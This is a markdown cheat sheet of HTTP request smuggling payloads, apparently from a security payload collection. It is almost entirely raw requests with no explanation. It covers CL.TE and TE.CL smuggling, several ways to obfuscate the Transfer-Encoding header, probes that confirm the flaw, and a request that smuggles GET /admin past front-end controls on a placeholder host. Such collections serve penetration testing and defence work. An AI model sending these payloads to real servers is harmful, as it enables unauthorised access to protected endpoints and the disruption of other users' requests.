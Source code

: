 # HTTP Request Smuggling Tips

## CL.TE Payload
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE.CL Payload
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

## Obfuscate TE header
```http
Transfer-Encoding: xchunked
```

```http
Transfer-Encoding: chunked
```

```http
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```http
Transfer-Encoding:[tab]chunked
```

```http
[space]Transfer-Encoding: chunked
```

```http
X: X[\n]Transfer-Encoding: chunked
```

```http
Transfer-Encoding
: chunked
```

## Confirming CL.TE vulnerabilities using differential responses
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

## Confirming TE.CL vulnerabilities using differential responses
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

## Using HTTP request smuggling to bypass front-end security controls
```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```